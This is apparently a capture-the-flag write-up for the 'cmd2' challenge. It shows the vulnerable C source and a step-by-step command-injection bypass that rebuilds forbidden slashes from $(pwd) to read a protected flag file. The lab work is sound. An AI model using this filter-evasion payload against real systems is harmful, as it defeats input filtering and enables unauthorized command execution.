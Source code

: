 First I needed to get the cmd1 flag again so I did that quickly and got started
```bash
cmd1@ubuntu:~$ ./cmd1 "/bin/cat f*"
[flag🤫]
```

I opened the c file `cmd2.c`
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        setregid(getegid(), getegid());
        system( argv[1] );
        return 0;
}
```

reading the c code in the server I saw that I needed to access the flag after the PATH variable was discarded...
```c
putenv("PATH=/no_command_execution_until_you_become_a_hacker");
```

I also could not use any of these in my commands: =, PATH, export, /, \`, flag
so my problem was to get to the commands.
My first thought was to create an alias for the command that I wanted.
```bash
cmd2@ubuntu:~$ alias docs='/bin/cat flag'
cmd2@ubuntu:~$ ./cmd2 docs
docs
sh: 1: docs: not found
```
But the alias had a scope of the current terminal session and was not recognized by the system.
I tried creating a global alias but I did not have permission...

I decided to take a look at what commands I had that were built in to the shell and saw that I had `cd` so I tried to build a payload that will bring me to where the bin folder is located so there I could try and run a real command.

First I wanted to see where the script was running so that I could know how to get to the bin folder.
```bash
cmd2@ubuntu:~$ ./cmd2 "pwd"
pwd
/home/cmd2
```

Now that I knew that the shell was running in the `cmd2` directory I could build my command.
I still had a problem because when I was in the bin directory I did not have the flag file.
After a lot of trialing and researching i realized that it was not the right direction so I 
started to think about  how I can make a `/` without explicitly typing it in.

I tried by echoing its ascii value `\x2f` which worked well in bash but did not work in shell
```bash
cmd2@ubuntu:~$ echo $(echo -e \\x2f)
/
cmd2@ubuntu:~$ ./cmd2 "\$(echo -e \\\\x2f)bin\$(echo -e \\\\x2f)cat f\lag"
$(echo -e \\x2f)bin$(echo -e \\x2f)cat f\lag
sh: 1: -e: not found
```

So I decided to take a step back and remember what tools I had.
I had the `pwd` since it is built in to the shell. so I wanted to use it to fake slashes by being in the root directory. 
```bash
cmd2@ubuntu:/$ pwd
/
```

Now all I had to do was integrate it into my payload and run the command
```bash
cmd2@ubuntu:/$ $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)flag
/bin/cat: /home/cmd2/flag: Permission denied
cmd2@ubuntu:~$ ./cmd2 'cd .. && cd .. && $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*'
cd .. && cd .. && $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla*
[flag🤫]
```